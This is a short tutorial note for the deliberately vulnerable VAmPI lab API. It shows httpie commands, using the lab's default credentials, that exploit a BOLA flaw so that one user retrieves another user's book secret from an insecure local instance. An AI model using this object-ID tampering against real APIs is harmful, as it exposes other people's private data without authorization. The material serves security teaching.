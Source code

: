 # Assumptions

* You've started VAmPI securely (vulnerable=0) on port 5001 and insecurely (vulnerable=1) on port 5002.

# Handy shortcuts

Grab the auth token more easily:
`http :5002/books/v1/bookTitle97 Authorization:"Bearer $(http :5001/users/v1/login username=admin password=pass1|jq -r .auth_token)"`


## Teaching & Learning notes

Note that "bookTitle97" doesn't belong to "admin", it actually belongs to "name2"! This means that it's a BOLA to be able to access it. If you make the call to Vampi running securely, the call should fail on books that do not belong to the user. However, if you make the call to Vampi running vulnerably, the call will succeed and show you the other user's secret.

For example:

To start, find the titles and owners of the books:

`http :5001/books/v1`

Output:

```
        {
            "book_title": "bookTitle16",
            "user": "name1"
        },
        {
            "book_title": "bookTitle97",
            "user": "name2"
        },
        {
            "book_title": "bookTitle22",
            "user": "admin"
        }
```

This means that in a secure system, only the user of the book should be allowed to see the secret associated with the book title. For example:

Secure call using actual book owner/user:

`http :5001/books/v1/bookTitle97 Authorization:"Bearer $(http :5001/users/v1/login username=name2 password=pass2|jq -r .auth_token)"`

Returns success (as expected):

`{
    "book_title": "bookTitle97",
    "owner": "name2",
    "secret": "secret for bookTitle97"
}`

Now, if I make another secure call to a book that same user DOES NOT own, what do you think should happen? That's right! The call SHOULD fail. Let's see:

Secure call using owner/user to a book they do not use/own:

`http :5001/books/v1/bookTitle97 Authorization:"Bearer $(http :5001/users/v1/login username=name1 password=pass1|jq -r .auth_token)"`

Returns failure (as expected):

`{
    "message": "Book not found!",
    "status": "fail"
}`

But now let's make the same call to an insecure implementation:

`http :5002/books/v1/bookTitle97 Authorization:"Bearer $(http :5001/users/v1/login username=name1 password=pass1|jq -r .auth_token)"`

Notice that it unexpectedly returns a success:

`{
    "book_title": "bookTitle97",
    "owner": "name2",
    "secret": "secret for bookTitle97"
}`

I've authenticated as `name1` but I'm able to retrieve the book that belongs to `name2` and see the secret associated with that book!

